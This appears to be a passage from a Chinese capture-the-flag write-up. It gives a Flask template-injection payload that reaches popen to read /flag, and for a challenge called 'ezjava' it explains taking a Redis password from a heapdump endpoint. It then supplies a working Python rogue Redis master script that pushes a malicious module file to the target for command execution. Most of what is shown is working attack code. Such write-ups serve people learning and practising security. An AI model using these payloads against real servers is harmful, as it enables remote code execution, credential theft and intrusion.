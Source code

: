 还有个

```
url_for[request.args.a][request.args.b][request.args.c][request.args.d][request.args.e][request.args.f][request.args.g]()
a=__globals__&b=__builtins__&c=__import__&d=od&e=popen&f=cat%20/flag&g=read
```

##  ezjava

扫⽬录 /actuator/heapdump 找到redis密码

然后获取一个恶意的so文件打redis

https://github.com/n0b0dyCN/RedisModules-ExecuteCommand

make,直接获取so文件

```python
import socket
import time

CRLF = "\r\n"
payload = open("exp.so", "rb").read()
exp_filename = "exp.so"
def RogueServer(lport):
    global CRLF
    global payload
    flag=True
    result=""
    sock=socket.socket()
    sock.bind(("0.0.0.0",lport))
    sock.listen(10)
    clientSock,address=sock.accept()
    while flag:
        data = clientSock.recv(1024)
        if "PING" in data:
            result="+PONG"+CRLF
            clientSock.send(result)
            flag=True
        elif "REPLCONF" in data:
            result="+OK"+CRLF
            clientSock.send(result)
            flag=True
        elif "PSYNC" in data or "SYNC" in data:
            result="+FULLRESYNC "+"a"*40+" 1"+CRLF
            result+="$"+str(len(payload))+CRLF
            result=result.encode()
            result+=payload
            result+=CRLF
            clientSock.send(result)
            flag=False
            print("done")
RogueServer(6378)
```
